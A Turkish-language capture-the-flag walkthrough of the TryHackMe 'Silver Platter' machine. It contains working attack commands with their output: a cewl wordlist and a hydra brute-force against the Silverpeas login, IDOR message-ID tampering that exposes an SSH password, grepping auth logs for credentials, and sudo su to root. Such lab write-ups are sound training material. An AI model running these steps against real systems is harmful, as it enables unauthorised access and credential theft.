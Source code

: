 ```yaml
---
title: 'TryHackMe | Silver Platter WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [brute force, log, idor, sudo]
render_with_liquid: false
media_subpath: /images/tryhackme_silver_platter/
image:
  path: logo.webp
---
```


## Özet

Silver Platter, web uygulamasındaki bilgilerden yararlanarak kaba kuvvet saldırısı yaptığımız kolay seviye bir makinedir. Uygulamaya giriş yaptıktan sonra mesajların bulunduğu alanda bir `IDOR` zafiyeti tespit edecek ve bu zafiyeti sömürerek SSH kullanıcı bilgilerini öğreneceğiz. Daha sonra log dosyalarından birinde bulduğumuz parola ile bir başka kullanıcıya geçiş yapacağız. Bulunduğumuz kullanıcının sudo yetkilerini kontrol ettiğimizde ise root haklarıyla istediğimiz komutları çalıştırabileceğimizi öğreneceğiz.

## Keşif aşaması

### Nmap taraması

```console
$nmap -sSVC -T4 10.10.53.94
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1b:1c:87:8a:fe:34:16:c9:f7:82:37:2b:10:8f:8b:f1 (ECDSA)
|_  256 26:6d:17:ed:83:9e:4f:2d:f6:cd:53:17:c8:80:3d:09 (ED25519)
80/tcp   open  http       nginx 1.18.0 (Ubuntu)
|_http-title: Hack Smarter Security
|_http-server-header: nginx/1.18.0 (Ubuntu)
8080/tcp open  http-proxy
|_http-title: Error
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404 Not Found
...
```

### 80 numaralı portun incelenmesi

![](1.webp){: width="1200" height="600" }

Tyler Ramsbey tarafından yapılmış bir web uygulaması ile karşı karşıyayız. Uygulamanın amacını tam olarak anlamış değilim. Bazı yerlerde CTF'ler düzenledikleri, bazı yerlerde ise kurumların güvenliğini sağladıkları yazıyor. Sanırım bu iki işi de görüyorlar. İletişim sayfasına baktığımızda, iletişim için bir kullanıcı adı verildiğini ve onlarla Silverpeas üzerinden iletişim kurabileceğimizin belirtildiğini görüyoruz.

![](2.webp){: width="900" height="500" }

### 8080 numaralı portun incelenmesi

![](3.webp){: width="1200" height="600" }

Bahsettiği `silverpeas` uygulaması `8080` numaralı port üzerinde bulunuyor. İletişim kurmak için bu adrese sadece kullanıcı adı ile yönlendirdiğini düşünürsek, parolasının aynı kullanıcı adına sahip olduğunu veya varsayılan bilgileri içerdiğini düşünebiliriz ama değil. Cewl aracı ile 80 numaralı port üzerinde çalışan web sitedeki bilgilerden bir parola listesi oluşturalım. Daha sonra ise hydra aracından yararlanarak bir kaba kuvvet saldırısı başlatalım.

```console
$ cewl http://10.10.53.94 > passwords.txt
$ hydra -l scr1ptkiddy -P passwords.txt 10.10.53.94 -s 8080 http-post-form "/silverpeas/AuthenticationServlet?DomainId=0:Login=^USER^&Password=^PASS^&DomainId=0:F=Login or password incorrect"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-31 09:49:00
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 345 login tries (l:1/p:345), ~22 tries per task
[DATA] attacking http-post-form://10.10.53.94:8080/silverpeas/AuthenticationServlet?DomainId=0:Login=^USER^&Password=^PASS^&DomainId=0:F=Login or password incorrect
[8080][http-post-form] host: 10.10.53.94   login: scr1ptkiddy   password: ***
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-31 09:49:19
```

Elde ettiğimiz kullanıcı bilgileri ile sisteme giriş yapalım.

![](4.webp){: width="1200" height="600" }

## Sömürü aşaması

![](5.webp){: width="1200" height="600" }

Sistemde `manager`, `scr1ptkiddy` ve `administrator` olmak üzere üç adet kullanıcı bulunuyor. Bu kullanıcılara mesaj gönderebiliyoruz. Bulunduğumuz kullanıcıya ise `manager` kullanıcısından "game night" başlığı altında bir mesaj gönderilmiş.

![](6.webp){: width="1200" height="600" }

scr1ptkiddy kullanıcısına gönderilen mesajda bir saat içinde bir VR oyununa başlayacaklarını ve katılmak isteyip istemediğini sorduğunu görüyoruz. Bu arada url yapısı dikkatimizi çekiyor. 

![](7.webp){: width="900" height="500" }

ID değerini her değiştirişimizde başka bir kullanıcının mesajı ile karşılaşıyoruz. 6 numaralı mesajı kontrol etmek istediğimizde ise `tim` kullanıcısının parolasını elde ediyoruz.

![](8.webp){: width="900" height="500" }

Kullanıcı bilgilerini kullanarak SSH servisine bağlandıktan sonra ilk bayrağı kullanıcının kendi dizininden alıyoruz.

## Yetki yükseltme

### tyler

`id` komutunu kullandıktan sonra `adm` grubunda olduğumuzu öğreniyoruz.

```console
tim@silver-platter:~$ id
uid=1001(tim) gid=1001(tim) groups=1001(tim),4(adm)
```

`adm` grubunda bulunan dosyaları listelediğimizde geneli log dosyalarından oluşan bir takım dosyalar ile karşılaşıyoruz.

```console
tim@silver-platter:~$ find / -group adm 2>/dev/null
/var/log/kern.log
/var/log/syslog.3.gz
/var/log/kern.log.2.gz
/var/log/syslog.2.gz
/var/log/auth.log.1
/var/log/kern.log.1
/var/log/dmesg.4.gz
...
```

Haliyle bu log dosyalarından `tyler` kullanıcısının parolasını bulabileceğimi düşündüm ve grep komutu ile /var/log dizinindeki dosyaları kontrol ettim.

```console
tim@silver-platter:~$ grep "password" -iR /var/log 2>/dev/null | grep "tyler"
...
/var/log/auth.log.2:Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=*** -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
...
```

`auth.log` dosyası içerisinded `tyler` kullanıcısının parolasını buluyor ve kendisine geçiş yapıyoruz.

### root

`sudo` yetkilerimizi görüntülediğimizde herhangi bir kullanıcı adına istediğimiz tüm komutları çalıştırabileceğimizi öğreniyoruz.

```console
tyler@silver-platter:/home/tim$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) AL
```

`sudo su` komutunu kullanarak root kullanıcısına geçiş yapıyor ve son bayrağı kendi dizininden alıyoruz.

```console
tyler@silver-platter:/home/tim$ sudo su
root@silver-platter:/home/tim# cd /root
root@silver-platter:~# ls
root.txt  snap  start_docker_containers.sh
root@silver-platter:~# cat root.txt 
THM{***}
```

